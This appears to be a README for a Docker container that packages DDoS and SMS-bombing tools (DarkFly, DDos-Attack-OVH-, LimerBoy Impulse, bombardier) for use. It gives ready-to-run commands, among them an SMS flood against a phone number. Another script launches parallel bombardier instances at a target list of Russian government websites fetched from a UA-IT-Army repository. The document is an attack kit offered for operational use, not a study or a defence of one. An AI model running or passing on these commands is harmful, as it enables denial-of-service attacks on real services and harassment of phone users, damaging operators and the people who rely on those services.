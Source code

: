 # Intro

toolbox container includes:

* https://github.com/Ranginang67/DarkFly-Tool
* https://github.com/HardyTomas/DDos-Attack-OVH-.git
* https://github.com/LimerBoy/Impulse.git
* [and more](containers/README.md)

# Use


[more detailed documentation](containers/README.md)

(Optional) Build container:

```shell
docker build -t droopy4096/uait-tools -f containers/Dockerfile.toolkit .
```

Login into container shell:

```shell
docker run --rm -it droopy4096/uait-tools
root@bda7c51682fb:/opt# 
```

from here several tools are at your disposal:

## DarkFly

https://telegra.ph/DDOS-sajta--DarkFly-08-11

just launch DarkFly console:

```shell
DarkFly
```

follow `1` then `16` to install `hammer` into `/root/hammer.py` 

## DDos-Attack-OVH-

https://github.com/HardyTomas/DDos-Attack-OVH-

```shell
cd DDos-Attack-OVH-
python3 80port.py
# or
python3 443port.py
```

##  LimerBoy / Impulse 

https://github.com/LimerBoy/Impulse

```shell
cd LimerBoy-Impulse
python3 impulse.py --method SMS --time 20 --threads 15 --target +380123456789
```

# Automated bombardier

to spawn several `bombardier`'s in isolated docker containers:

```shell
tools/bombarder.sh $(curl -s https://raw.githubusercontent.com/UA-IT-Army/aggressor-sites/main/ru/ru_gosuslugi.json | jq -r '. | keys[]')
```